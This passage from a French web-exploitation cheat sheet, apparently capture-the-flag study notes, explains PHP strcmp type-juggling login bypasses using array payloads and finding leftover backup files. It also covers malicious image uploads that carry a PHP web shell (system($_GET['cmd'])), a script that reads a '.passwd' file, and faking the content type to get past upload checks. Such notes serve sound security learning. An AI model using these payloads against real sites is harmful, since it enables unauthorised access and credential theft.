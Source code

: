 Dans la même idée, la fonction `strcmp` est vulnérable via les tableaux. Ainsi le code d'authentification:

    <?php
        if(!strcmp($_POST['login'], "admin") && !strcmp($_POST['password'], "p@ssword")){
			echo "authentification success";
		}
    ?>

est vulnérable avec les données :

    login=[]&password=[]

`strcmp` utilise bien la comparaison stricte mais est vulnérable au type juggling, si on lui passe un array, il plante et renvoi `NULL` or `NULL == 0`.
Pour l'url `[]` vaut `%5B%5D`.

Si l'authentification est gérée par un tableau de variable comme ceci:

    if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256))

Alors l'URL encodée correspond à ça 

    auth=%7B%22data%22%3A%7B%22login%22%3A0%2C%22password%22%3A%5B%5D%7D%7D
    // auth={"data":{"login":0,"password":[]}}

le [document de l'OWASP](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20loose%20comparison%20-%20Type%20Juggling%20-%20OWASP.pdf) sur le sujet est très intéressant.

## Exploiter les fichiers de sauvegardes
Certaines mauvaises habitudes consistent à conserver une copie de sauvegarde d'un fichier PHP en guise d'archive. Le problème est que s'ils sont conservés dans le même espace, qui est donc accessible, l'ancien code devient accessible. On trouve par exemple ce type de format pour les sauvegardes:

    #.index.php
    _.index.php
    ~.index.php
    #index.php
    _index.php
    ~index.php
    index.php.bak
    index.php.old
    index.php2
    ...

## Uploading - Exploiter les images
Sur un upload d'image, il est possible d'insérer à la place d'une image un fichier PHP qui va nous permettre de récupérer un fichier:

    <?php $file = file_get_contents('../../../.passwd');var_dump($file); ?>
ou d'exécuter une commande:

    <?php system($_GET['cmd']); ?>
Puis dans l'url on fait un `?cmd=cat` ....

Piur bypasser le contrôle sur le contenu, il va falloir intercepter la requête sur le bouton `submit`, `upload` ou `envoyer`... et modifier le content dans la requête en ce qui est attendu, par exemple `image/gif`. Il suffira ensuite dans l'URL d'appele le fichier php uploader avec les bons arguments.
